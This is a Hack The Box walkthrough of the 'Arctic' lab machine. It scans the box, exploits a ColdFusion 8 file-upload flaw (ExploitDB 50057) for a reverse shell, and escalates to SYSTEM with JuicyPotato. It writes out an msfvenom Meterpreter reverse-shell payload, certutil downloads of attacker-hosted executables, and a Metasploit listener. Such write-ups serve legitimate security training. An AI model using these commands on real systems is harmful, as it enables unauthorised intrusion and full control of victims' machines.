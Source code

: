 # Arctic - Hack The Box Walkthrough

**Target IP**: `10.10.10.11`  
**Hostname**: `arctic.htb`  

---

## Initial Setup

### Preparing the Environment
1. Store the target IP in a file for reuse:
   ```bash
   echo 10.10.10.11 > target
   ```
2. Add the target to your `/etc/hosts` file for easier navigation:
   ```
   10.10.10.11   arctic.htb
   ```

---

## Enumeration

### Full Port Scan
I conducted a full TCP port scan to identify open ports:
```bash
nmap -p- -v -iL target -oN nmap/full_tcp_scan.txt
```

**Open Ports**:
- 135/tcp - MSRPC
- 8500/tcp - HTTP (ColdFusion)
- 49154/tcp - MSRPC  

### Service Enumeration
Next, I performed a targeted scan on the discovered ports to gather detailed information:
```bash
nmap -p135,8500,49154 -v -iL target -A -oN nmap/target_ports_scan.txt -oX nmap/target_ports_scan.xml
```

Unfortunately, the Nmap scan provided limited details. Testing ports manually with `telnet` and `nc` also yielded no additional information.

---

## HTTP on Port 8500

Accessing the web server at `http://arctic.htb:8500/` revealed an administrative login page located at:  
`http://arctic.htb:8500/CFIDE/administrator/`

The page identified the software as **Adobe ColdFusion 8**.

![image](https://github.com/user-attachments/assets/965b6200-8bc6-4a63-94c1-deb76a96ca6e)

---

## Exploitation

### Identifying Vulnerability
I searched for known vulnerabilities in Adobe ColdFusion 8:
```bash
searchsploit Adobe ColdFusion 8
```

**Result**:
I discovered an exploit for **ColdFusion 8 Arbitrary File Upload**:  
```text
ColdFusion 8 - Arbitrary File Upload | 50057
```

I extracted the exploit using:
```bash
searchsploit -m 50057
```

![image](https://github.com/user-attachments/assets/1fe12b8e-0136-423b-925b-93fe40f8aebd)

### Modifying the Exploit
The exploit script needed configuration changes to target the Arctic machine:

![Screenshot from 2024-12-12 20-53-54](https://github.com/user-attachments/assets/1215ff26-65bb-4934-b60b-99af9f7f9474)

### Obtaining a Shell
1. Then run the python script:
   ```bash
   python3 50057.py
   ```

![image](https://github.com/user-attachments/assets/0ad09701-8968-4c4c-9f45-80530f2a3e6b)

**Outcome**: Obtained a reverse shell on the Arctic machine 

---

## Privilege Escalation

### 1. Token Impersonation via JuicyPotato
#### Initial Findings
Checking privileges revealed `SeImpersonatePrivilege` enabled:
```bash
whoami /priv
```

#### Exploitation
1. **Download JuicyPotato** on your local machine:
   ```bash
   wget "https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe"
   ```
2. **Generate a Meterpreter Reverse Shell**:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=8887 -f exe -o shell.exe
   ```
3. **Start a Web Server**:
   ```bash
   python3 -m http.server 8081
   ```
4. **Transfer Exploits to the Target**:
   ```bash
   cd %TEMP%
   certutil -UrlCache -f http://<IP>:8081/JuicyPotato.exe JuicyPotato.exe
   certutil -UrlCache -f http://<IP>:8081/shell.exe shell.exe
   ```
5. **Start Listener**:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_IP>
   set LPORT 8887
   run
   ```
6. **Run JuicyPotato**:
   ```bash
   .\JuicyPotato.exe -t * -p shell.exe -l 443
   ```

**Outcome**: Obtained a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges.

---

## Summary

1. Identified **Adobe ColdFusion 8** running on port 8500.
2. Exploited an **arbitrary file upload vulnerability** to gain a foothold.
3. Conducted local enumeration and privilege escalation to obtain the root flag.

---

## Resources

- [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057)
- [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)](https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070)
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

